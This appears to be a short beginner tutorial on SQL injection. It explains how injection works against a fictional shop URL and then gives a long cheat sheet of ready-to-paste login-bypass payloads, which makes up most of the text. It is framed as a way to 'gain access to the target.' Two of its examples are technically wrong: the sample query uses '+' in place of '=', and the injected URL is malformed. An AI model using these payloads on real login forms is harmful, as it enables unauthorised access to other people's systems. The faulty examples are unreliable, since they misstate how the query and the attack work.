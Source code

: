 # What is SQL Injection  
SQL Injection (SQLi) is a web security vulnerability in which can allow an attacker the ability to interfere  
with any given queries that the target application makes to its respective database.  
Think of it like this;  
Application has login page. We want to log in but do not know the information.  
SQL Injection can allow us to discover the database, and possibly read from it, thus granting  
us access to read the information and be able to log into the website.  
  
## Retrieving Hidden Data  
Let's consider we are shopping on some random E-Commerce site. And we see a category called "Gifts". The URL would look like;  
```
https://randome-com.site/products?category=Gifts
```
What the Website is doing, is it is communicating with the database and it is telling the SQL structure this;  
```
SELECT * FROM products WHERE category + 'Gifts' AND released = 1
```
Basically, the website is telling the database;  
*"Yo big man, give me everything you have inside of the "Gifts" Category. I got a new shopper!"*  
  
What we, as an attacker can do, is perform a simple Injection that will allow us to discover all possible releases inside of "Gifts"  
like this;  
```
https://randome-com.site/products?category'--  
```
See how we changed the end to ('--), this will tell the website to query the database and find all possible releases!  
  
## Bypasing Login with SQLi  
Now, 90% of the time we are looking for an SQL Injection is not to go shopping. But instead, we want to gain access to the target.  
This list allows us to add the SQLi command into the "Username" or "Password" field and see if we can either;  
A) Bypass the login completely  
B) Discover the Database and read from it!  
  
**SQLi Cheat Sheet**  
```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
